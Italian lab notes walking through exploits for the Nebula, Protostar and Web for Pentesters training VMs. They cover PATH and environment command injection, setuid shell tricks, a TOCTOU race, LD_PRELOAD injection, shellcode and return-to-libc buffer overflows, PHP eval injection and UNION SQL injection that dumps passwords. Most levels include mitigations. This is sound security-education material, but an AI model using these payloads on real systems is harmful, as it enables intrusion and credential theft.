

# Esercizi di laboratorio:  

<center>

# Nebula 

</center>


## Level00:
tbd

## Level01:

Il comando echo dentro l'eseguibile è eseguito tramite il comando env, che consente di eseguire un comando esterno in un ambiente UNIX.  

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Si vuole arrivare ad eseguire il binario `/home/flag01` con i permessi di flag01.  
Il binario flag01 ha `SETUID` attivo e echo non viene invocato con un path completo, il che permette una comand injection.  

**Exploit:** Si copia getflag come /tmp/echo e si prepone la directory /tmp a `$PATH` che contiene i percorsi di ricerca dei binari. In questo modo quando si invocherà 'echo' verra eseguito /tmp/echo che contiene la copia di getflag, quindi verrà eseguito getflag.  


```bash
# echo $PATH contiene percorso ricerca UNIX dei binari 
# si modifica PATH prependendo la directory /tmp
export PATH=/tmp:$PATH
echo $PATH # mostra /tmp come prima dir di ricerca

# Si copia il file /bin/getflag in /tmp/echo 
cp /bin/getflag /tmp/echo # ora env echo invoca getflag

cd /home/flag01
./flag01 # invoca getflag con i privilegi di getflag!
```

**Mitigazioni:**  
- Si usa il percorso intero di echo ossia `/bin/echo` per evitare injection tramite PATH
- Rimuovere il SETUID da flag01 per impedire esecuzione privilegiata 
- Cambiare il contenuto di PATH usano le funzioni `setenv` o `getenv` nel codice sorgente e ripristinandole dopo l'invocazione, richiede una nuova compilazione del binario.  


## Level02: 

È presente un eseguibile in `/home/flag02`, ha SETUID attivo ed è presente l'utilizzo di una variabile di ambiente non controllata `$USER`.  

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
Usiamo una comand injection con la seguente struttura: comando_safe + carattere separatore + comando_malizioso + commento. 
Inseriamo dentro la variabile $USER l'output che si aspetta, ossia level02 e poi con il carattere seperaratore `;` iniettiamo il comando `getflag` che verrà eseguito con i privilegi elevati in quanto il binario ha SETUID attivo.  

```bash
echo $USER # stampa valore corrente ossia: level02
# si imposta l input malizioso in USER con export 
export USER="level02; getflag #"
echo $USER # otteniamo level02; getflag #
cd /home/flag02
./flag02 # esegue getflag con i permessi fi flag02 in quanto il binario ha setuid attivo
```

**Mitigazioni**:
- Abbassiamo i privilegi al binario
- Usiamo il comando `getpwuid()` per ottenere il nome dell'user da /etc/passwd invece di usare una variabile modificabile dall'utente.  


## Level03: 
In questo esercizio è presente un daemon cronotab che esegue ogni minuto, per verificarne la presenza si può fare `pstree -p`.  
Studiando la directory di flag03 si scopre che contiene un file sh che prova ad eseguire il contenuto della directory `writable.d` che è world-writable (drwxrwxrwx) ossia un'eccessiva esposizione dell'asset.  
Il cronotab periodicamente eseguirà il file `writable.sh` e quindi andrà ad eseguire tutti i file di writable.d.  

**exploit:** L'obiettivo è sfruttare il cronotab che esegue con i permessi di flag03, infatti inseriremo dentro writable.d che ha permessi abilitati per tutti uno script bash che copi /bin/bash lì e che gli assegni i SETUID e SETGID per eseguire con i privilegi di flag03; Il cronotab quando si attiverà eseguirà `writable.sh` che eseguirà a sua volta i file bash in `writable.d`.  

```bash
# in: /home/flag03/writable.d/exploit.sh 

#!/bin/bash
cp /bin/bash /home/flag03/bash 
chmod u+s /home/flag03/bash 
```

Quando questo file verrà eseguito in /home/flag avremo una copia di bash, basterà eseguire bash con l'opzione -p per non perdere i privilegi e una volta entrati eseguiremo getflag

```bash
level03@nebula: /home/flag03$ ls 
bash  writable.d  writable.sh
level03@nebula: /home/flag03$ /home/flag03/bash -p
bash-4.2$ whoami 
flag03
bash-4.2$ getflag
You have successfully executed getflag on a target account
```

**Mitigazioni:**  
- Restringere i permessi di accesso a writable.d 
- Restringere accesso alla home di flag03 rendendola accessibile solo a flag03 

<br>

## Level05:

Andando su /home/flag05 si scopre un file .backup che contiene una coppia di chiavi per una connessione ssh per connettersi alla VM con l'account flag05.
```bash
ssh -p 2222 -o PublicAcceptedKeyTypes=+ssh-rsa-i .ssh/id_rsa flag05@localhost
```

**Mitigazioni:**  
- Abbassare privilegi di accesso e negare l'accesso a tutti tranne che all'utente propriertario della directory 
- Rimuovere file contenenti dati sensibili di un sistema 

<br>

 

## Level06

Si informa che il sistema proviene da una distribuzione legacy di linux e che potrebbe avere problemi di sicurezza.  
Infatti in questo sistema tutti possono leggere `/etc/passwd`, leggendo tale file ci si accorge che l'hash della password dello user flag06 è salvato in chiaro.  

Basta copiare l'hash e decriptarlo per ottenere la password dell'utente.  
Per prima cosa serve capire il tipo di hash $\rightarrow$ `hashid` 
- `-m` per includere la modalità da usare con hashcat . corrisponde a 1500
- dopo si usa hashcat con attaco a dizionario usando `rockyou` reperibile online 
- usare opzione `hashcat -a 0 -m 1500 flag06.hash rockyou.txt` per attacco a dizionario 
- usare `--show` per stampare il risultato 

**Mitigazioni:**  
- Un amministratore di sistema dovrebberimuovere l'hash in bella visa da /etc/passwd e metterlo in /etc/shadow per evitare che sia esposto.  

<br>

  


## Level07:

È presente un programma perl che esegue un ping verso un indirizzo passato nella variabile $host, l'obiettivo è eseguire getflag con flag07.  

Si naviga in /home/flag07 e si trova il codice sorgente e il file di configurazione (scopriamo in ascolto sulla porta TCP 7007; in esecuzione con privilegi flag07 e servente la directory /home/flag07).  


```php
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```


Vulnerabilità $\rightarrow$ Input non controllato nel sorgente  
Si farà una command injection che permetta di eseguire il comando getflag 

Per aprire la connessione si può scrivere la richiesta GET e passarla a netcat tramite pipe $\rightarrow$ `echo "GET /index.cgi?Host=8.8.8.8"| nc localhost 7007`  

Se si prova ad usare una command injection con carattere `;` come separatore questa fallirà in quanto `;` è un carattere speciale che viene interpretato e rimosso dall'url.  
Per iniettare il comando bisogna usare la codifica ascii di `;` e per fare escaping di un carattere in ambito web si usa il carattere `%`, alla fine il separatore sarà `%3b`.  

Injection $\rightarrow$ `echo "/index.cgi?Host=8.8.8.8%3Bgetflag" | nc localhost 7007"`  

note:
- si potrebbe anche usare `echo -ne "GET /index.cgi?Host=8.8.8.8%3Bgetflag\r\n\r\n" | nc localhost 7007` ma bisogna chiudere i header HTTP con \r\n\r\n  
- Quando scriviamo la injection non lasciare spazi e tenere tutto attaccato.  

**Mitigazioni:**  
- Abbassare i privilegicambiano dile di configurazione per impedire esecuzione di getflag
- Filtrare e Sanificare l'input per evitare iniezzioni.  


<br>

## Level08:  

serve wireshark.  


## Level10: 

È presente un binario che prende in input il path di file e un indirizzo IP che apre una connessione verso un client se dispone dei permessi.  
Osservando il sorgente si nota una notevole distanza tra il controllo dell'accessibilità del file e l'effettivo utilizzo (nel mezzo ci sono operazioni costose - flush di stdout).  
È presente anche un file `token` che contiene le credenziali di autenticazione di `flag10`  

Vulnerabilità: 
- toctou: distanza controllo uso eccessiva
- il file in input non è controllato o sanitizzato prima dell'utilizzo
- privilegi eccessivamente elevati dati dalla presenza del SETUID all'eseguibile  


Vogliamo ingannare il programma facendo in modo che al Time-of-Check il file sia uno a cui abbiamo accesso (altrimenti non eseguirebbe), e durante la Finestra di Opportunità sostituirlo con un file a cui non avremmo accesso (`token`), in modo che al Time-of-Use il programma apra il file sbagliato con i privilegi elevati.

Bisognerà: 
- creare un link che alterna tra i due file: uno di cui si può leggere il contenuto e l'altro il file `token` 
- creare un client che accetti la connessione aperta dal programma riflettendo il contenuto su un file
- eseguire il binario rallentando l'esecuzione al massimo  

La sostituzione di asset avviene con un ciclo che crea continuamente un link alternando tra un file di cui si disponde dei permessi di accesso (creato appositamente) e il file obiettivo `token`. 

Sul primo terminale si lancia il seguente comdando:

```bash
while :; do ln -fs /tmp/token /tmp/link; ln -fs /home/flag10/token /tmp/link; done  
```
- opzione `-f` forza il link anche se il file esiste già ; `-s` crea link simbolico  


Sul secondo terminale si collega il clinet con netcat:

```bash
while :; do nc.traditional -vlp 18211 >> /tmp/server.txt; done 
```
- questo ciclo server per resilienza, dato che si proveranno migliaia di tentativi e sapendo che ad ogni tentativo fallito il server si chiude, lo inseriamo in un ciclo infinito per assicurarci che il server rimanga sempre in ascolto


L'esecuzione del binario avviene dentro un ciclo while ma si sfrutta il comando `nice` per modificare lo scheduling del programma e rallentarlo.    

Nel terzo terminale:
```bash
while :; do nice -n 19 /home/flag10/flag10 /tmp/link 127.0.0.1; done 
```
- si specifica l'eseguibile + file partenza + indirizzo ip del server
- per natura dell'attacco questo va eseguito in un ciclo infinito per cercare di fare vincere al linker la corsa critica.  


Per verificare l'andamento dell'exploit si può usare `tail` per stampare le ultime righe a /tmp/server.txt e rimuovere le connessioni con `grep`  

Nel quarto terminale scriviamo:  
```bash
tail -f /tmp/server.txt | grep -v '.oO Oo.'
```

In questo terminael troveremo la password di flag10, basterà poi fare `su flag10` > inserire la password ottenuta > eseguire getflag con tale account.  


## Level13

Nella home directory di flag13 è presente un binario che controlla lo userID dell'utente che lancia il processo, se corrisponde al valore predeterminato allora si stampa il token - password di flag13.  

La vulnerabilità sta nello script, viene stampato in caso di fallimento l'id dell'utente che ha lanciato il processo e l'ID che si aspettava l'eseguibile, questo fa diventare il fattore di autenticazione pubblico.  
Per aggirare il controllo e 'sovrascrivere' la funzione `getuid` si consulta la documentazione man 7 environ.  

Si scopre che esistono variabili di sistema che possono influenzare il comportamento del linker.  

Iniezione di libreria: si sfrutta la variabile di ambiente `LD_LIBRARY_PATH` - `LD_PRELOAD`.  

Scopriamo che `LD_PRELOAD` contiene un elenco di librerire condivise e tali librerie sono collegate prima di tutte le altre richieste da un file binario eseguibile (LD_PRELOAD =/path/to/lib.so:/path2/...).  
Attenzione: questa vulnerabilità funziona solo per file compilati dinamicamente in quanto server l'iniezione di libreria, se è statico allora non si può sfruttare questo exploit.  

Step: 
1. generare libreria condivisa che sovrascrive la funzione getuid(), facciamo ritornare sempre 1000 
    andiamo su man getuid per capire quali librerie servono per poter fare l'override della funzione
2. compilare la libreria con -shared e -fPIC 
3. copiare l'eseguibile da /home/flag13/flag13 in /home/level13 per rimuovere il setuid (in quanto una libreria condivisa funziona solo se ha lo stesso tipo di privilegio del binario)  
4. iniettare la libreria: export LD_PRELOAD = ./setuid.so
5. ottenre credenziali 

```c++
// si scrive un eseguibile in c per sovrascrivere la funzione getuid:
uid_t getuid(void){
    return 1000;
}
```
```bash
# generiamo libreria condivisa con gcc
gcc -shared -fPIC -o getuid.so getuid.c 
export LD_PRELOAD=./getuid.so 
# copiamo il file eseguibile nella directory attuale per eliminare il setuid da esso
cp /home/flag13/flag13 /home/level13

# eseguiamo il file
./flag13 # -> otteniamo la password per flag13 (su flag13)
```

Volendo per evitare di cambiare l'ambiente per l'intera sessione si può fare in questo modo:

```bash
gcc -shared -fPIC -o getuid.so getuid.c 
cp /home/flag13/flag13 /home/level13

export LD_PRELOAD=./getuid.so ./flag13 
```
In questo modo una volta finito l'eseguibile flag13 l'export si perde e torna ad essere normale per evitare di interferire con altri binari.  

<br><br><br>

<center>

# Protostar 

</center>


## Stack00
Abbiamo un buffer e una variabile modified, analizzando il codice sorgente notiamo che per eseguire la challenge con successo basta modificare la variabile, per farlo sfruttiamo il buffer creando un overflow per sovrascrivere la variabile.  
In quanto il buffer è di dimensione 64, basterà dare in input 65 caratteri per modificare la variabile.    


## Stack04
Il binario `/opt/protostar/bin/stack4` è un programma che definisce un buffer, viene chiesto il riempimento di tale con la funzione `gets()` e l'obiettivo è invocare una funzione definita ma non chiamata dal main alterando il control flow del programma.  

L'exploit richiede di studiare il layout dello stack di questo eseguibile per sfruttare un buffer overflow e invocare la funzione `win()`.  
Sappiamo che lo stack ha una base puntata da `ebp` e subito dopo esso si trova l'indirizzo di ritorno.  
Dobbiamo calcolare esattamente quanti byte dobbiamo scrivere per sovrascrivere l'area di memoria fino all'indirizzo di ritorno del main.  

Per fare ciò teniamo a mente la seguente considerazione:
- la base dello stack si trova in `ebp` e l'indirizzo di ritorno insieme ai parametri della funzione vengono salvati negli indirizzi più alti, ossia verso sinistra (per spostarci su questi indirizzi dobbiamo sommare a `ebp` i byte lungo i quali vogliamo spostarci). Le variabili locali della funzioni si trovano e vengono costruite man mano verso gli indirizzi più bassi, ossia verso sinistra, e per spostarci dovremmo sottrarre a `ebp` il numero di byte per un opportuno offset.  
- Gli array (come buffer nel nostro caso) vengono quindi allocati verso sinistra ma **crescono** verso destra! Sapendo questo se facciamo un overflow andremo a scrivere le variabili locali che lo precedono e potremmo raggiungere l'indirizzo di ritorno.  

Usiamo il debugger `gdb` per analizzare la srtruttura a run time e trovare gli indirizzi che ci interessano; calcoleremo la distanza di padding come `&return - &buffer` in questo modo sapremo quanti byte ci serviranno per arrivare proprio all'inzio del registro per il return address.  
Sostituiremo il valore di tale registro con l'indirizzo di `win()` e il payload per fare ciò sarà di questo tipo:  
`payload= 'a'*(padding)+indirizzo_di_win` 

Gli step da seguire sono i seguenti:  

```bash
gdb /opt/protostar/bin/stack4
unset env ROWS && unset env COLUMNS

# otteniamo indirizzo di win 
p win 
$1 = {void (void)} 0x80483f4 <win> #[out]: indirizzo di win()

start 
disas main 

b * 0x08048415
c
x/x $eax
0xbffffca0:	0xb7fd7ff4 # [out]: l'indirizzo è il primo

p $ebp+4-$eax
$3 = (void *) 0x4c #[out]: ora sappiamo che la distanza è 4c (76) byte
q

python -c "print 'a'*76+'\xf4\x83\x04\x08'" | /opt/protostar/bin/stack4
```


Quando facciamo `disas main` otteniamo:

```bash
...
0x08048411 <main+9>:	lea    0x10(%esp),%eax
0x08048415 <main+13>:	mov    %eax,(%esp)
0x08048418 <main+16>:	call   0x804830c <gets@plt>
...
```

Da questo codice assembly notiamo (in <main+16>) che viene invocata la funzione `gets()`, sappiamo che gets richiede l'indirizzo del buffer per poter scrivere e notiamo infatti attentamente che in <main+9> abbiamo `lea 0x10(%esp),%eax`, da questa istruzione deduciamo che l'indirizzo del buffer si trovi proprio in `%eax`

**_nota:_** Quando sovrascriviamo l'indirizzo di ritorno con quello di `win()` dobbiamo assicurarci di invertire l'indirizzo di quest'ultimo in quanto l'architettura è little endian.   

<br>

## Stack05

Il binario `/opt/protostsar/bin/stack5` prende in ingresso l'input per un buffer da 64 byte, l'esecizio richiede di utilizzare uno shell code ed iniettarlo sul buffer per ottenere i privilegi di root (setuid attivo sul sorgente).  

L'idea è di utilizzare lo shell code ossia codice scritto direttamente sullo stack tramite il buffer, modificare l'indirizzo di ritorno della funzione all'indirizzo del buffer che avrà all'inizio lo shell code, in questo modo verrà eseguito tale codice.  

Per realizzare l'exploit occorre conoscere:
- L'indirizzo del buffer
- La posizione del return address della funzione 
- Shell code da iniettare direttamente sul buffer 
- Distanza &buffer - &return 

Il payload da dare in pasto all'eseguibile sarà: 
```
<shellcode> + <padding> + <indirizzo buffer>
```

Per ottenere tutte queste informazioni useremo il debugger `gdb`:
**nota importante** : Risulterà necessario allineare lo stack di gdb con quello della shell eliminando le variaibli di ambiente `LINES` e `COLUMNS`.  

```bash
gdb /opt/protostar/bin/stack5

unset env LINES
unset env COLUMNS

start 
p $ebp+4 # otteniamo & return 
$1 = (void *) 0xbffffcec

disas main 
...
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
...

b * 0x080483d1 
c
x/x $eax
0xbffffca0:	0xb7fd7ff4 #otteniamo & buffer
p $ebp+4-$eax
$2 = (void *) 0x4c #otteniamo distanza $buffer - &return 
```

A questo punto sappiamo che la distanza tra buffer e indirizzo di ritorno è di `0x4c` ossia 76 byte, e conosciamo anche l'indirizzo del buffer ossia `0xbffffca0`.  

Consultiamo lo script python che contiene lo shell code:

```python
length = 76 # lunghezza aggiornata 
ret = '\xa0\xfc\xff\xbf' # indirizzo in little endian del buffer
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80" 
padding = 'a' * (length - len(shellcode))

payload = shellcode + padding + ret
print(payload)
```

A questo punto non ci resta che invocare il binario per provoare lo shell code.  
**Nota:** Bisogna invocare il binario sfruttando `cat`, altrimenti la shell aprta riceve un EOF dallo stdin svuotato da `gets()` che chiuderebbe la shell. 
- il primo cat inietta l'input malevolo ed attiva la shell 
- il secondo accetta input da STDIN e lo inoltra alla shell


<br><br>

## Stack06

Il binario in questione contiene un programma che invoca una funzione nella quale viene preso in input un buffer e subito dopo viene controllato l’indirizzo di ritorno.
Se esso è sullo stack del programma (e quindi è in corso un attacco che cerca di saltare ad uno shellcode) si esce con un errore.  
L'obiettivo è ottenere una shell con privilegi aggirando questa contromisura, nello specifico si sfrutta l'exploit `return-to-libc`, invece di saltare a indirizzi dentro lo stack di salta direttamente a un indirizzo di libreria, in questo modo si aggira la contromisura (che controlla solamente che l'indirizzo non sia sullo stack).  


Per l'attacco ci occorre avere:
- Indirizzo di `system()` 
- Indirizzo di `exit()`
- Indirizzo del `buffer` per calcolare il padding

Dovremo fornire a `system()` i suoi argomenti, costruendo un 'falso' stack frame che la funzione possa usare, infatti useremo l'indirizzo di `exit()` come punto di ritorno per `system()` per garantire una terminazione pulita e l'indirizzo del buffer come parametro (dove come parametro avremo /bin/sh).  
Stiamo quindi creando uno stack frame 'finto' per `system` all'interno del buffer.  




Il nostro input malevolo finale sarà strutturato così:

```
[Stringa "/bin/sh"] + [Riempimento] + [Indirizzo di system()] + [Indirizzo di exit()] + [Indirizzo del buffer]
```

Per ottnere le informazioni che ci servono utilizziamo il debugger gdb:

```bash
gdb /opt/protostar/bin/stack6
unset env LINES
unset env COLUMNS
start 

p system 
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
p exit 
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

disas getpath 
...
0x080484a4 <getpath+32>:	lea    -0x4c(%ebp),%eax
0x080484a7 <getpath+35>:	mov    %eax,(%esp)
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
...
b * 0x080484a7
c 
x/x $eax
0xbffffc8c:	0xb7f0186e # &buffer
p $ebp+4-$eax
$3 = (void *) 0x50 #0x50=80 distanza tra &buffer - &ritorno
```

A questo punto abbiamo tutto quello che ci serve, ci basterà generare lo script python che ci darà il payload malevolo che useremo.  

```python
buffer:0xbffffc8c
system:0xb7ecffb0
exit:0xb7ec60c0

# dobbiamo invertirli per rispettare arch little endian 
buffer='\x8c\xfc\xff\xbf'
system='\xb0\xff\xec\xb7'
exit='\xc0\x60\xec\xb7'

print '/bin//sh\x00'+'a'*71+'\xb0\xff\xec\xb7'+'\xc0\x60\xec\xb7'+'\x8c\xfc\xff\xbf'
# print(f"/bin//sh\x00+'a'*71+{system}+{exit}+{buffer}")
```
generiamo il payload con `python payload.py > payload` 
e lo lanciamo usando il doppio `cat`  

`(cat payload ; cat) | /opt/protostar/bin/stack6`

<br><br>

<center>

# Web4PenTesters - WFP

</center>


## Code Injection 1:  

Si guarda il codice sorgente in `/var/www/codeexec` e si nota che viene usata una stringa $str = 'echo...' e che tale stringa viene interpretata come una espressione php.
  

    
La pagina web utilizza il parametro della richiesta `_GET` per stampare un messaggio che viene riflesso da un comando echo lanciato tramite `eval()`


```php
<?php require_once("../header.php"); ?>

<?php 
    $str="echo \"Hello ".$_GET['name']."!!!\";";
    eval($str);
?>
<?php require_once("../footer.php"); ?>
```

Dato che l'input viene riflesso in una stringa che viene eseguita in una shell, è possibile usare una command injection per eseguire statement arbitrari 


La struttura dell'input malevolo è la seguente:

```
name = hacker"
     + ;
     + system("id");
     + "
```

`/codeexec/example1.php?name=hacker%22;system(%22id%22);%22`


**Mitigazioni**:
- Controllare l'input e abbassare i privilegi 
- Rimuovere la stampa di stderr cambiando il file di configurazione php 


## SQL Injection 1:

Nel codice sorgente della sfida notiamo che viene costruita una stringa rappresentante uno statement SQL, tale input non viene controllato in alcun modo e viene mandato ad un DBMS MySQL per l'esecuzione.  

```php
<?php

  require_once('../header.php');
  require_once('db.php');
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";	
	$result = mysql_query($sql); 
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
  require_once '../footer.php';
?>

```

Si adotta lo schema classico di iniezione al caso specifico.  

È possibile usare l'operatore **`OR`** per iniettare un comando e l'espressione in questo modo diventa una _tautologia_:  

```
name=root'OR 1=1%23`
```

È possibile determinare il numero di colonne: usiamo `ORDER BY` e il fatto che nelle query ci si possa riferire ad una colonna tramite indice numerico.  
Proviamo a parire da 1 e incrementiamo il valore dell'order by fino a quando non viene generato un errore (che vuol dire che stiamo cercando di inicizzare una colonna che non esiste), al primo errore che vediamo possiamo concludere dicendo che esistono $N-1$ colonne, dove $N$ è il tentativo che ha portato all'errore.  

```
name=root' order by 5 %23
name=root' order by 6 %23 --- genera errore
```

Una volta che abbiamo questi dati possiamo ottenere informazioni più interessanti per un attaccante, come il nome della tabella, il numero di colonne, ecc... 


Ottenere il nome del database in uso, la versione e l'utente connesso

```
name=root' union select version(), database(), current_user(),4,5 %23
```

Ottenere il nome della tabella

```
name=root' union select table_name,2,3,4,5 from information_schema.tables where table_schema='exercises'%23
```

Ottenere il nome delle colonne:  

```
name=root' union select column_name,2,3,4,5 from information_schema.columns where table_schema='exercises' and table_name='users' %23
```

Otteniamo che esistono le colonne: id, name, age, groupid, passwd.  
Con questa informazione possiamo fare il dump delle informazioni che ci interessano, come user id e la password 

Stampa ID, nome utente e password

```
name=root' UNION SELECT id, name, passwd,4,5 FROM users %23 
# per risparmiare spazio si può sfruttare concat()
name=root' union select concat(id,':',name,':',passwd),2,3,4,5 from users %23
```

<br>

---


### vecchia spiegazione


Una volta determinato il numero di colonne riesco a eseguire Query omogenee, a questo punto posso enumerare il db e ottenere il suo nome per avanzare nella SQL injection:

- `root' UNION SELECT version(), database(), current_user(),4,5 %23`

A questo punto ottengo il nome del DB ossia **exercises**

Per estrarre le tabelle interessanti del DB devo iniettare il comando `information_schema.tables` tramite una UNION.  

- `root' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables where table_schema='exercises'%23`  
Noto che il db exercises ha una sola tabella di nome `users`  

Faccio la stessa cosa ma per vedere la struttura della colonne  
- `root' UNION SELECT column_name,2,3,4,5 from information_schema.columns where table_schema ='exercises and table_name='users' %23`
Noto che la tabella users ha 5 colonne: id, name, age, groupid, passwd  

A questo punto posso fare il dump della tabella, basta uno statement SELECT che selezioni le colonne interessanti (id,name,passwd) della tabella di interessa (users)

- `root' UNION SELECT id,name,passwd,4,5 from users %23`

  

**nota:** Se si è a corto di colonne riflesse si può usare la funzione di sistema `concat()` per concatenare valori di colonne diverse.  

- `root' UNION SELECT concat(id,':',name,':',passwd),2,3,4,5 from users %23`  
In questo modo l'ouput interessante ora è compattato in un unica colonna.  
    


<br><br>


## SQL Injection 2:


```bash
```


domande:
- esercizio 5 (decomprimere archivio e utilizzarne contenuto)
- esercizio 6 - hash salvato in chiaro, usare hashcat e rockyou come dizionario 
- esercizio 8 - serve wireshark 
